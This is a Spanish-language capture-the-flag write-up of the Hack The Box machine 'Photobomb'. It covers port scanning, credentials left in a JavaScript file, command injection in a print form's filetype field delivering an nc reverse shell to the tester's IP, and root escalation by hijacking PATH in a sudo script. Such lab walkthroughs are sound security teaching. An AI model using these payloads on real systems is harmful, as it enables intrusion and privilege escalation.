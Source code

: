 El dia de hoy estaremos realizando la maquina Photobomb de la plataforma de Hack The Box es una maquina de dificultad facil

![](/assets/img/photobomb/machine.png)

## Enumeracion 
Empezamos haciendo un escaneo de puertos a la maquina victima
```bash
❯ nmap 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-10 20:16 -05
Nmap scan report for 10.10.11.182
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.15 seconds
```

Ahora para esto puerto que estan abiertos intentemos detectar la version que corre en cada un de ellos
```bash
❯ nmap -sCV -p22,80 10.10.11.182 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-10 20:18 -05
Nmap scan report for 10.10.11.182
Host is up (0.092s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
De lo que reporta nmap podemos ver que en el puerto 80 hay un redirect hacia http://photobomb.htb/ y como nuestra maquina no sabe a que resolver tenemos que agregar este dominio al archivo /etc/hosts
```bash
❯ echo '10.10.11.182 photobomb.htb' >> /etc/hosts
```
Otra forma de ver esto es si le tramitamos una peticion con curl al servidor podemos ver en  la cabezera Location que hace un redirect hacia ese dominio
```javascript
❯ curl -s 10.10.11.182 -I |grep 'Location'
Location: http://photobomb.htb/
```
Veamos la Web
![](/assets/img/photobomb/web.png)
Vemos que en la web hay una pagina predeterminada de un software de lo que parece ser una impresora, En la pagina hay un enlace el cual nos lleva a http://photobomb.htb/printer pero necesitamos credenciales para poder acceder a el.

Si miramos el codigo fuente de la pagina vemos que hay un script de javascript llamado photobomb.js
![](/assets/img/photobomb/co.png)

Si vemos el contenido de este archivo hay credenciales en texto claro
```bash
❯ curl -s http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
podemos ver una forma de autenticarse desde la url, usemos este mismo enlace para autenticarnos en la pagina

 al ingresar podemos ver esto
![](/assets/img/photobomb/panel.png)

## Explotacion

Hay una funcionalidad para descarga imagenes interceptemos esto con burpsuite para hacer algunas pruebas, jugando un poco con los parametros el campo filetype no se le esta aplicando una buena sanitizacion y podemos injectar comandos, ejecutemos el comando whoami y enviemos el output a un puerto de nuestra maquina
![](/assets/img/photobomb/burp.png)

Nos ponemos en escucha con nc 
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.182] 50346
wizard
```
Tenemos un Rce Consigamos una shell en donde operar mas comodos, usemos un payload de esta [pagina](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) para obtener una shell

Enviemos la consulta con nuestro payload , al momento de enviar la consulta Tenemos que arrastar el token de authorizacion de nuestra session.
```bash
❯ curl -s 'http://photobomb.htb/printer' --data 'photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.7+4444+>/tmp/f&dimensions=3000x2000' -H 'Authorization: Basic cEgwdDA6YjBNYiE='
```
Nos ponemos en escucha por el puerto que le indicamos con nc 
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.182] 57954
/bin/sh: 0: can't access tty; job control turned off
$ whoami
wizard 
```
Y obtenemos la reverShell
## Escalda de privilegios
Si miramos los privilegios que tenemos a nivel de sudoers vemos que podemos ejecutar un script de bash como root sin proporcionar contraseña
```bash
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
Si miramos el script, en la linea final esta llamando a find relativamente  sin su ruta absoluta podemos aprovecharnos de esto para hacer una tecnica llamada path hacking, que consiste en modificar la ruta del PATH la cual se encarga de buscar en cada una de sus rutas el binario que le indiquemos sin tener que poner su ruta absoluta, esto a nivel de sistema no supone ningun riesgo pero cuando esta en un script setuid, es una via facil de escalar privlegios

```bash
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Para explotar esto cambiemos al directorio /tmp y creemos un archivo con el nombre de find y demosle permisos de ejecucion
```bash
wizard@photobomb:/tmp$ cat find 
/bin/sh
wizard@photobomb:/tmp$ chmod +x find 
```
Los Path Hacking normalmente suele ser modificando nuestra propia variable de entorno $PATH, pero como esto lo vamos a ejecutar como root tenemos que antes de ejecutar el script modificar la ruta de el PATH de el usuario root, ejecutemos el script y funciono somos root.
```bash
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
# whoami
root
# bash   	
root@photobomb:/home/wizard/photobomb# cat /root/root.txt 
dda1339f19e5d4de81dcc1eec4661ece
```
Gracias por leer
